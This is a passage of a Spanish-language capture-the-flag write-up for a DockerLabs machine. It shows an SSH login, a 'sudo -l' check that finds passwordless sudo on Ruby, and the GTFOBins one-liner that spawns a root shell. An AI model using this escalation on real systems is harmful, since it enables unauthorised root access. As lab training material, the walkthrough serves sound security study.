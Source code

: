 ```ruby
❯ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ whoami
juan
```

Una vez dentro de la máquina víctima, vamos a intentar listar todos los privilegios de sudo del usuario actual. Es decir, mostrar qué comandos puede ejecutar con sudo y cómo. 
```ruby
$ sudo -l
Matching Defaults entries for juan on bce9d6585f7e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on bce9d6585f7e:
    (ALL) NOPASSWD: /usr/bin/ruby
```
Sabiendo que podemos ejecutar Ruby con permisos de administrador, podemos buscar en [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/) alguna forma de establecer una shell remota, puesto que esta se ejecutará con los permisos del usuario que la haya lanzado. 
![GTFOBins](https://github.com/JavieRR13/WriteUps/blob/242fbbf07762eec1c756edfa85ea9554b0ea935c/DockerLabs/Muy%20f%C3%A1cil/Vacaciones/Im%C3%A1genes/Vacaciones_GTFOBins.png)
```ruby
$ sudo ruby -e 'exec "/bin/sh"'
# whoami
root
````
🥳CONSEGUIDO, SOMOS ROOT🥳
